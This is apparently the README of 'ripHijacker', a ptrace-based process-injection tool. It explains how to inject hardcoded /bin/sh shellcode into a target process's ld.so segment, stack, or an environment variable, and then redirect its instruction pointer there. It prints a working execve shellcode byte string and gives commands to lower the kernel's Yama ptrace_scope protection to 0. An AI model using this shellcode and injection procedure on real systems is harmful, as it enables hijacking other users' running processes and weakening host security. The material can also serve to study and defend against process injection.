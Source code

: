 # ripHijacker
                       
 Usage: ./ripHijacker -p target_pid  [-z 0|1 [-e environment_variable -n target_program_name]]
 
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid

..allows you to inject an hardcoded "/bin/sh" shellcode into the executable segment /lib/x86_64-linux-gnu/ld-2.19.so of the target and to overwrite its rip register with the address of that segment.
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid -z 1

..allows you to inject an hardcoded "/bin/sh" shellcode into the stack of the target and to overwrite its rip register with the address pointed by its rsp register.
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid -z 1 -e environment_variable -n target_program_name 

..allows you to overwrite the register rip of the target with the address of the environment variable (specified with -e option) in the target's stack.
-------------------------------------------------------------------------------------------------------------------------
We can load a simple shellcode in an environment variable with the command:

export A=$(python -c "print '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")

ripHijacker uses ptrace. "A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes", so we can change scope of ptrace with these commands:

sudo vim  /etc/sysctl.d/10-ptrace.conf

..and setting.. 

kernel.yama.ptrace_scope = 0

..after that we must load the new settings with:

sudo sysctl --system -a -p | grep  yama

Obviously, to use '-z 1' option the target program must be compiled with the "-z execstack" option.

Acknowledgment:

  Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
  conoscenza dell'utilità di ptrace ed anche Crossbower che mi ha dato l'idea su come effettuare l'attacco ld_inj




